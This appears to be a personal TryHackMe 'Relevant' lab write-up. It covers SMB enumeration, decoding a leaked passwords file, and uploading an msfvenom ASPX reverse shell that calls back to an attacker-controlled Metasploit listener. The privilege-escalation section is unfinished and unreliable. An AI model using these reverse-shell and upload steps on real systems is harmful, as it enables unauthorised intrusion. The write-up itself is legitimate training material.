 
enumeration

![nmap scan screenshot ](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20151506.png?raw=true)
![continued nmap screenshot](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152835.png?raw=true)

```
gobuster dir -u http://10.10.50.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
```
![gobuster scan](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152608.png?raw=true)

smb

To show what was listed in the smb share.
```
smbclient -L \\\\10.10.50.140\\
```
```
smbclient  \\\\10.10.10.144\\nt4wrksv
```
![smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154052.png?raw=true)

The `get` command wasn't working. I added a destination for the passwds.txt
![smb transfer file](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154125.png?raw=true)


The strings needed to be decoded base64
![base64 -d](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154538.png?raw=true)

RCE vulnerability via an insecure file upload path that uses SMB shares as the storage backend.

For testing I tried to see if i could access the share through a browser. Seeing if 
I could put test.txt into the smb. In the smb share `put text.txt`
![text.txt in browser](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20161907.png?raw=true)


make payload  (note check payload is the same in msfvenom and msfconsole)
.aspx files are Active Server Pages for .NET web applications (Microsoft IIS servers usually run these).
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.137.19 LPORT=8910 -f aspx -o reverse1.aspx
```

in the smb share add   
```
put reverse.aspx
```
![aspx in smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20155759.png?raw=true)





browser
```
http://10.10.10.144:49663/nt4wrksv/reverse.aspx
```
execute the browser and msfconsole (refresh browser)

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.137.19
LHOST => 10.10.137.19
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.137.19:8910 
[*] Command shell session 2 opened (10.10.137.19:8910 -> 10.10.10.144:49762) at 2025-05-28 21:24:48 +0100
```=

Shell Banner:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\windows\system32\inetsrv
```
This is the image of the msf and the browser (note the browser has reverse1.aspx this 
should just be the payload file.. mine is different because intitial i wrote a bad payload 
so i changed the file name.. but use the same file as the payload and what is in the smb share)
![cmd and brownser screenshot](https://github.com/ClearLotus-git/writeups/raw/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20162543.png)


msfshell

```
cd c:\Users\Bob\Desktop
```
open user.txt
![Screenshot](https://github.com/ClearLotus-git/writeups/raw/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20162649.png)






# ---------------------->>>> START HERE priv escalation need to redo. <<<<<----------------- start here to see about exploit
i cant remember how i did it the first time 
Priv Escalation

```
whoami /priv
```
SeImpersonatePrivilege

location of the smb directory 
```
c:\inetpub\wwwroot\nt4wrksv
```
https://github.com/itm4n/PrintSpoofer

i can use metasploit for it. bg session 

```
search printspooler

use 4

sessions

set session 1

run

```
need to upgrade meterpreter shell 
```
use post/multi/manage/shell_to_meterpreter

set session 1

run
```
now need to run the printspooler again




#I couldnt get the smb share to copy the file over to my machine and still not sure of the error

